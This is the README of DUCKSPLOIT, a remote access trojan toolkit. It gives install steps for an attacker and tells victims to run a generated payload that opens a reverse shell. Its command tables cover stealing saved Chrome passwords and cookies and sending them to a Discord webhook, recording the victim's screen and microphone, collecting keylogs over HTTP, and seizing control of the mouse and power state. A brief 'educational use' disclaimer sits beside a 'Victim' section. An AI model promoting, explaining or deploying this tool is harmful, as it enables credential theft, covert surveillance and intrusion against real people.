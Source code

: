 # ⚠️DUCKSPLOIT IS UNDER MAINTENANCE⚠️


<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/dsbanner.png" alt="banner"/>

![](https://img.shields.io/badge/Version-1.0.7-red?style=for-the-badge) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/badge/Windows-blue?style=for-the-badge)![](https://img.shields.io/badge/Linux-yellow?style=for-the-badge)![](https://img.shields.io/badge/Android-green?style=for-the-badge)

> Awsome crossbreed of c#, batch, bash powershell, java and python on Windows, Android n linux ♥
 <center>
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/windows-10.png?raw=true" alt="win10" widith="100" height="100"/>
</center>

## Install Ducksploit

#### Hacker
###### setup Windows/Linux
1. Download the hacker's version for your version (win/linux/android) on <a href="https://canarddu38.github.io/DUCKSPLOIT/download.html">our website</a>
2. Install the executable (DSinstaller.exe/.deb/.apk)
3. Type ds in your terminal
4. And done! 
###### :warning: Only for Android
5. Set your port
6. Click on START SERVER button
7. And wait till someone install your payload

 **⚠️DS ANDROID'S PAYLOAD GENERATION IS NOT ACTUALLY WORKING
 TO GET YOUR PAYLOAD PLEASE GO IN OUR DISCORD SERVER⚠️**



#### Victim
Just install the generated payload and that will start automaticaly the client of the reverse shell
:warning: Ducksploit is made for legal use or educational use (then, we are not responsible for any crimes committed by our users):warning:

## Uninstall Ducksploit (windows/linux)
1. type 'ds uninstall' in cmd
2. Done  :smile:

## Uninstall DuckSploit for Android
 1. Delete the app from your phone
 
## SUPPORT
support us with     
<noscript><a href="https://www.paypal.com/paypalme/Canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>              # or             <noscript><a href="https://www.patreon.com/ducksploit"><img alt="Donate 👍 using Patreon" src="https://forum.cwowd.com/uploads/default/original/3X/6/d/6d1cdda143cc46667d87659d64d15a869a9b6139.png" width="100" height="100"></a></noscript>

## **Commands**
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/mindmap.png?raw=true">




#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command       | Usage                              | Result                                                                               |
| ------------- | ---------------------------------- | ------------------------------------------------------------------------------------ |
| stealpwds     | stealpwds (discord webhook url)    | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook   |
| open          | open (applicationname.exe)         | open mensioned application                                                           |
| recordscreen  | recordscreen (time in second)      | record victim's screen durring amount of time                                        |
| recordmicro   | recordmicro (time in second)       | record victim's micro durring amount of time                                         |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}:8080/keylogger/' ⚠️

#### Mouse
| Command     | Usage                            | Result                                      |
| ----------- | -------------------------------- | ------------------------------------------- |
| mouseclick  | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove   | mousemove (x) (y)                | move the victim's cursor by x and y pixels  |
| locatemouse | locatemouse                      | get the victim's cursor current locations   |

#### Alert Window
| Command  | Usage                       | Result                                                                    |
| -------- | --------------------------- | ------------------------------------------------------------------------- |
| msg      | msg (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines |

#### Troll
| Command | Usage | Result                              |
| ------- | ----- | ----------------------------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc 
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |

